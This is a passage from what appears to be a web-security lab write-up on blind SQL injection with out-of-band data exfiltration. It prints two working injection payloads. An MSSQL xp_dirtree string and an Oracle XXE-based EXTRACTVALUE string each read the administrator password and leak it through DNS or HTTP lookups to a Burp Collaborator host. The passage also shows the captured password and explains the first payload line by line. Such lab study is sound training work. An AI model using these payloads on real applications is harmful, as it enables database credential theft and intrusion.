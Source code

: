 And if you triggered everything properly it solves the lab by interracting with Collaborator

Now we would need to use the out-of-band channel to exfiltrate data from the vulnerable application

```
'; declare @p varchar(1024);set @p=(SELECT password FROM users WHERE username='Administrator');exec('master..xp_dirtree "//'+@p+'.cwcsgt05ikji0n1f2qlzn5118sek29.burpcollaborator.net/a"')--
```

This input reads the password for the `Administrator` user, appends a unique Collaborator subdomain, and triggers a DNS lookup. This lookup allows you to view the captured password:

```
S3cure.cwcsgt05ikji0n1f2qlzn5118sek29.burpcollaborator.net
```

* **declare @p varchar(1024)**: This line declares a variable `@p` of type `varchar` with a maximum length of 1024 characters.
* **set @p=(SELECT password FROM users WHERE username='Administrator')**: This SQL statement selects the password associated with the username 'Administrator' from the 'users' table and assigns it to the variable `@p`.
* **exec('master..xp\_dirtree "//'+@p+'.cwcsgt05ikji0n1f2qlzn5118sek29.burpcollaborator.net/a"')**: This part executes a dynamic SQL statement using the `exec` function. It constructs a command to execute the extended stored procedure `xp_dirtree` from the `master` database. The procedure is being used to traverse directories on the server. The directory path is constructed dynamically using the value of the `@p` variable concatenated with a fixed string and a Burp Collaborator URL.
* **--**: This is a comment in SQL, indicating that everything after `--` is ignored by the SQL engine.

### Lab: Blind SQL injection with out-of-band data exfiltration

```
TrackingId=x'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//'||(SELECT+password+FROM+users+WHERE+username%3d'administrator')||'.BURP-COLLABORATOR-SUBDOMAIN/">+%25remote%3b]>'),'/l')+FROM+dual--
```

<figure><img src="../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>
